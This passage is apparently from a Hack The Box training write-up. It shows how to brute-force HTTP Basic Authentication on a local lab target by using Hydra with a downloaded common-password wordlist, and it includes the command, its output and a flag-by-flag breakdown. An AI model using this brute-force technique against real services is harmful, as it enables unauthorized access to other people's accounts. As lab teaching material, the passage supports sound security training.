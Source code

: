 ### Command
```bash
# Download the wordlist if needed
DJMC@htb[/htb]$ curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt

# Hydra command
DJMC@htb[/htb]$ hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt 127.0.0.1 http-get / -s 81
```

### Hydra Output
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-09 16:04:31
[DATA] max 16 tasks per 1 server, overall 16 tasks, 200 login tries (l:1/p:200), ~13 tries per task
[DATA] attacking http-get://127.0.0.1:81/
[81][http-get] host: 127.0.0.1   login: basic-auth-user   password: ...
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-09 16:04:32
```

### Command Breakdown
- **`-l basic-auth-user`**: Specifies the username for login attempts.
- **`-P 2023-200_most_used_passwords.txt`**: Uses the password list file for the brute-force attack.
- **`127.0.0.1`**: Target IP address (localhost).
- **`http-get /`**: Targets the HTTP server with GET requests to the root path (`/`).
- **`-s 81`**: Sets the HTTP service port to 81.

### Result
Hydra systematically attempts each password from the `2023-200_most_used_passwords.txt` file. Upon finding the correct password, Hydra outputs it, enabling you to log in and retrieve the flag.

---

### Summary
Basic HTTP Authentication's simplicity makes it a useful yet vulnerable security measure. Tools like Hydra exploit these vulnerabilities by leveraging systematic brute-force techniques, emphasizing the need for robust password policies and stronger authentication mechanisms.

---

# Login Forms

## Overview
Beyond the realm of Basic HTTP Authentication, many web applications employ custom login forms as their primary authentication mechanism. These forms, while visually diverse, often share common underlying mechanics that make them targets for brute-forcing.
